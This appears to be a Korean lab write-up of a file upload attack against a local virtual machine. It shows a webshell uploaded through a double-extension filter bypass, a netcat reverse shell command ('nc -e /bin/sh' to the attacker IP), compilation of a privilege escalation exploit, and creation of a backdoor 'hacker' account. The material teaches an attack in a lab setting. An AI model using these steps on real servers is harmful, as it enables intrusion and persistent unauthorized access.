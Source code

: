 ```yaml
---
title: "파일업로드 공격 실습(File Upload Attack)"
categories:
  - Web
tags:
  - Web hacking
  - File upload
  - netcat
  - webshell
comments: true
---
```


파일 업로드 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 공격대상 서버 가상머신 환경설정
> 2. 파일 업로드 취약점 확인
> 3. Webshell 업로드 및 실행
> 4. nc 를 이용한 reverse connection
> 5. exploit code 재컴파일, 실행을 통한 권한상승


# 1. 공격대상 서버 가상머신 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1


# 2. 파일 업로드 취약점 확인

파일 업로드 공격은 다음의 3가지를 충족해야 한다.
- 공격자가 원하는 파일이 업로드 가능해야 한다.(확장자 우회 등을 통해)
- 업로드된 파일의 경로(서버 내 경로)를 알아야 한다.
- 업로드된 파일의 실행권한

> 2.1. 공격대상 웹 게시판에 sher.jpg 파일 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.png"></p></center>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.2.png"></p></center>

> 2.2. [이미지 우클릭]-[이미지 주소 복사] 를 통해 업로드된 파일의 경로를 파악한다.

파일 업로드 경로 : http://10.10.10.10/wizboard/table/root/board04/updir/sher.jpg

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.2.png"></p></center>


# 3. Webshell 업로드 및 실행

> 3.1. shell.php 업로드를 하면 다음과 같이 블랙리스트 기반 파일 확장자 필터링이 있는 것을 알 수 있다.


<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.1.png"></p></center>


> 3.2. shell.php.kr 로 파일명을 변경한 후 업로드 재시도(파일 필터링 우회기법) : 성공

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.2.png"></p></center>

> 3.3. Webshell 실행

`2.2. 파일 업로드 경로` 에서 알아낸 파일 업로드 경로를 참고하여 다음의 url 을 통해 webshell 을 실행시킨다.

http://10.10.10.10/wizboard/table/root/board04/updir/shell.php.kr

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.3.png"></p></center>

> 3.4. 계정 확인 (명령어 : id)

**nobody 계정은 가장 권한이 낮은 계정 중 하나로, apache web server process를 구동시키기 위한 계정이다.**

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.4.png"></p></center>

> 3.5. test 파일 생성 후 확인(명령어 : touch test, ls -al)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.5.png"></p></center>

> 3.6. test 파일 권한 확인(명령어 : stat test)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.6.png"></p></center>

> 3.7. exploit 코드 업로드 후, 실행을 통한 권한상승 시도

3.7.1. 게시판을 통한 exp1.c 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.1.png"></p></center>

3.7.2. 컴파일 : gcc -o exp exp1.c

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.2.png"></p></center>

3.7.3. 실행 : ./exp

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.3.png"></p></center>

3.7.4. 권한 상승 실패로 여전히 nobody 계정이다.

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.4.png"></p></center>


<div class="notice">
※ Expolit code 를 실행하였음에도, 권한상승에 실패한 이유?<br>
<br>
웹쉘이란?  사실은 쉘이 아니다. 리눅스 쉘에 명령어를 전달하고 출력결과를 전달해주는 것으로 리눅스에서 쉘은 /bin/bash, /bin/sh 등이다. 실제 shell 을 통해 exploit 코드를 실행하여야 한다.
</div>


# 4. nc 를 이용한 reverse connection

> 4.1. 공격 대상 PC 에서 nc 프로그램을 연결대기 상태로 만든다.

cmd 창을 2개 생성 후 다음과 같이 명령어를 입력한다.<br>
- `cmd_1` : nc -l -p 31337<br>
31337 포트를 이용한 프로그램 실행(31337 포트는 임의로 선택한 것이다.)<br>
- `cmd_2` : netstat -an<br>
31337 포트가 리스닝 상태인지 확인

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.1.jpg"></p></center>

> 4.2. 웹쉘을 통해 서버 -> 공격대상 PC 연결시킨다.

- `웹쉘` : nc -e /bin/sh 10.10.10.1 31337<br>
(이때, 10.10.10.1 은 공격자의 IP 주소이다.)
- `cmd_1` : id (연결확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.2.png"></p></center>

# 5. exploit code 재컴파일, 실행을 통한 권한상승

> 5.1. 이전에 컴파일 된, exp 를 삭제하고, nc(/bin/sh) 를 통해 exploit 코드를 재컴파일 후 실행시킨다.

<div class="notice">
※ root 권한의 계정으로 컴파일 된 실행파일을 만들기 위함
</div>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.1.jpg"></p></center>

> 5.2. hacker 계정 추가

useradd hacker<br>
passwd hacker<br>
cat /etc/passwd (hacker 계정 추가 확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.2.png"></p></center>

